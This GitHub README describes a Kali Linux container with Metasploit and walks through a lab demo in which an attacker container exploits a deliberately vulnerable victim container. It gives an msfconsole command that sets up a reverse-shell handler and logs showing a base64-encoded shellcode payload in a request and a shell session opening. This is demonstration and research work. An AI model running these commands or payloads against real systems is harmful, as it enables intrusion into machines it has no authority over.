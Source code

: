 # kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
pv build docker
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
In this example, an attacker container (`polyverse-internal.jfrog.io/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c-exploit`).

1. In this repo, perform `pv build -r polyverse-internal.jfrog.io docker`. This will create the Docker container image `polyverse-internal.jfrog.io/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse-security/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. `pv build docker` to create a new version of `polyverse/c-exploit`.
4. `cd ../kali-metasploit` to get back to the original folder.
5. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
6. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /index.php?q=YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== HTTP/1.1" 200 277 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x64/shell_reverse_tcp
LHOST => 172.17.0.2
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.2:5555 
[*] start exploit...
[*] address of rsp w/ offset = 7fffffffe630
[*] base64-encoded payload: YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== (Length: 500)
[*] Command shell session 7 opened (172.17.0.2:5555 -> 172.17.0.3:42242) at 2017-08-16 07:01:56 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c-exploit container.
